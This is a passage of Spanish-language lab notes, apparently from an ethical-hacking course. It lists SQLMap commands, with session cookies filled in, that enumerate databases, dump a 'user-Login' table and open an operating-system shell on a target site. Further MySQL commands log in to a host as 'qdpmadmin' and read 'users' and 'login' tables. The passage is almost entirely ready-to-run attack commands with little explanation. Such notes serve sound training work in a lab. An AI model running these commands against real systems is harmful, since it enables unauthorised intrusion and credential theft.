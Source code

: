 **Paso 3: Preparar terminal**
```bash
sudo su
# Contraseña: toor
```

### Comandos SQLMap para Extracción

**Enumerar bases de datos:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=" --dbs
```

**Enumerar tablas de una base de datos específica:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope --tables
```

**Extraer datos de tabla específica:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump
```

**Obtener shell del sistema:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell
```

**Comandos útiles en shell:**
```bash
TASKLIST
help
```

---

## 3. Comandos MySQL

### Conexión a Base de Datos MySQL
```bash
mysql -u qdpmadmin -h 192.168.1.8 -p password
```

### Comandos Básicos MySQL
```sql
-- Ver todas las bases de datos
show databases;

-- Seleccionar base de datos específica
use qdpm;

-- Ver todas las tablas
show tables;

-- Consultar datos de tabla específica
select * from users;

-- Cambiar a otra base de datos
use staff;

-- Ver tablas de la nueva BD
show tables;

-- Consultar tablas específicas
select * from login;
```